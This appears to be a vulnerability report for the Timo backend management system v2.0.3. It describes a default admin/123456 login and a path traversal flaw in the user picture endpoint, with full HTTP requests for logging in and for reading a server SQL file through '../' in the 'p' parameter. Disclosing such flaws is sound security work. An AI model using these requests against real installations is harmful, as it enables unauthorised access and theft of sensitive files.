





## Description

The Timo backend management system contains a default weak password vulnerability (`admin/123456`), which allows attackers to log in directly to the system dashboard. Concurrently, an arbitrary file read vulnerability exists in the "get user picture" function (around line 263). The code directly concatenates the user-controllable input parameter (`p`) with the base path and instantiates it as a `File` object (`new File(fuPath + p.replace(spPath, ""))`) without proper path normalization or boundary validation. After logging in, an attacker can exploit this path traversal flaw by crafting malicious requests containing directory traversal sequences (e.g., `../`) to read arbitrary sensitive files on the server (such as system password files or database configuration files), resulting in severe information disclosure.

**Project URL:** https://github.com/auntvt/Timo

## **Vulnerability Analysis**

**Vulnerable Location:**
`Timo-master\admin\src\main\java\com\linln\admin\system\controller\UserController.java` (Method: `picture`, Line 247, Column 24)



## **Steps to Reproduce**

**1. Prepare the Environment and Access the System**

Launch the Timo backend management system (v2.0.3) and access the application's main URL in a browser. The system automatically redirects to the backend login page.



**2. Authenticate Using Default Weak Credentials**

Input the default username and password (`admin` / `123456`) in the login fields and submit. Upon successful authentication, the attacker gains access to the backend management dashboard.



**Login HTTP Request**

```
POST /login HTTP/1.1
Host: 127.0.0.1:8080
sec-ch-ua-mobile: ?0
sec-ch-ua: "Not:A-Brand";v="8", "Chromium";v="156", "Google Chrome";v="156"
Origin: http://127.0.0.1:8080
Sec-Fetch-Dest: empty
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-platform: "Windows"
Referer: http://127.0.0.1:8080/login
Sec-Fetch-Mode: cors
Content-Length: 30

username=admin&password=123456
```

**3. Locate the Picture Endpoint and Intercept the Request**

Trigger the avatar loading request by clicking the profile avatar in the top right corner of the dashboard. Intercept the HTTP request using a proxy tool such as Burp Suite.



**4. Construct the Directory Traversal Payload**

Tamper with the `p` parameter in the captured request by injecting a path traversal payload. For example:
`GET /system/user/picture?p=/upload/../sdoc/timo.sql`



```
GET /system/user/picture?p=/upload/../sdoc/timo.sql  HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
sec-ch-ua-mobile: ?0
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-origin
Cookie: JSESSIONID=77dae973-8bcf-4624-941f-9dc2e2b0f282
Accept: */*
sec-ch-ua-platform: "Windows"
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate, br, zstd
Referer: http://127.0.0.1:8080/system/menu/index
Sec-Fetch-Mode: cors
sec-ch-ua: "Not:A-Brand";v="8", "Chromium";v="156", "Google Chrome";v="156"
```

